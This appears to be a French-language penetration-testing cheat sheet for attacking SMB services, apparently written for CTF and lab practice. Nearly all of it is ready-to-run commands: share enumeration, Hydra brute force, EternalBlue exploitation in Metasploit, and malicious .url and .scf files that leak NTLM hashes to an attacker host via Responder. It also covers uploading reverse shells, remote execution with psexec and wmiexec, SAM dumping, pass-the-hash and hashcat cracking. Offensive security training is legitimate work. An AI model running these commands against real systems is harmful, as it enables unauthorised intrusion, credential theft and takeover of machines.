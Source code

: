 # SMB/CIFS (139,445/TCP)

Server Message Block (SMB) permet le partage de fichiers, d'imprimantes et de communications entre nœuds sur un réseau.

## 🔍 Énumération
### Scan de base
```bash
# Scan Nmap détaillé
sudo nmap -sV -sC -p 139,445 $IP

# Scripts Nmap spécifiques à SMB
nmap --script=smb-* -p 139,445 $IP
```
### Énumération des partages
```bash
# Avec smbclient
smbclient -N -L //$IP/

# Avec smbmap (montre les permissions)
smbmap -H $IP
smbmap -H $IP -u 'guest' -p ''

# Avec netexec (crackmapexec)
nxc smb $IP -u '' -p '' --shares
```
### Énumération approfondie
```bash
# Enum4linux - outil tout-en-un
enum4linux -a $IP

# Énumération récursive des partages
smbmap -H $IP -R [Nom_Partage]

# Recherche de fichiers spécifiques
smbmap -H $IP -R [Nom_Partage] -A .xml -q
```
## 🔨 Exploitation
### Connexion aux partages
```bash
# Connexion anonyme
smbclient -N //$IP/[Nom_Partage]

# Connexion avec identifiants
smbclient //$IP/[Nom_Partage] -U "username%password"

# Montage du partage localement
mount -t cifs //$IP/[Nom_Partage] /mnt/smb -o username=user,password=pass
```
### Attaque par force brute
```bash
# Avec Hydra
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $IP smb

# Avec Netexec
nxc smb $IP -u users.txt -p passwords.txt
```
### Exploitation des vulnérabilités
```bash
# Test EternalBlue (MS17-010)
nmap --script smb-vuln-ms17-010 -p 445 $IP

# Exploitation avec Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $IP
set LHOST [VOTRE_IP]
run
```
### Capture de hachages NTLM
```bash
# Créer un fichier URL malveillant
cat > shell.url << EOF
[InternetShortcut]
URL=http://example.com
IconFile=\\\\[VOTRE_IP]\\share\\icon.ico
EOF

# Démarrer Responder
sudo responder -I tun0 -wv

# Uploader le fichier sur un partage SMB accessible
smbclient //$IP/[Nom_Partage] -U "username%password" -c "put shell.url"
```
## 🔐 Post-exploitation
### Transfert de fichiers
```bash
# Télécharger un fichier
smbclient //$IP/[Nom_Partage] -U "username%password" -c "get secret.txt"

# Uploader un fichier
smbclient //$IP/[Nom_Partage] -U "username%password" -c "put shell.php"

# Uploader un reverse shell
nxc smb $IP -u 'username' -p 'password' --put-file /path/to/nc.exe /tmp/nc.exe
```
### Exécution de commandes à distance
```bash
# Avec PsExec
impacket-psexec username:password@$IP

# Avec WMIExec
impacket-wmiexec username:password@$IP

# Avec Netexec
nxc smb $IP -u 'username' -p 'password' -x "whoami /all"
```
### Extraction de secrets
```bash
# Dumping SAM database
impacket-secretsdump username:password@$IP

# Pass-the-Hash
nxc smb $IP -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:a11736b048e1323bb41284e6e8919e53' -x "whoami"
```

## ⚠️ Erreurs courantes & astuces
- Les partages IPC$ et ADMIN$ peuvent nécessiter des privilèges élevés
- Le trafic SMB non chiffré peut être intercepté sur le réseau
- Certaines vulnérabilités SMB peuvent crasher des systèmes instables
- Les utilisateurs désactivés peuvent parfois toujours s'authentifier via SMB
- Si SMB échoue, essayez CIFS ou les ports alternatifs

### Astuces SMB tirées de CTFs réels
### Capture de hachages NTLM via SMB (Vault)
Forcer la capture de hachages NTLM en créant un partage SMB attractif:
- Si vous avez un accès en écriture à un partage SMB, vous pouvez créer un fichier SCF malveillant:

```bash
[Shell]
Command=2
IconFile=\\<votre_IP>\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
Démarrer Responder pour capturer les hachages:
```bash
sudo responder -I tun0 -v
```

3. Lorsqu'un utilisateur accède au dossier contenant le fichier SCF, son système tentera de charger l'icône depuis votre serveur SMB, envoyant ainsi ses identifiants NTLM.
4. Cracker le hachage NTLM capturé:
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```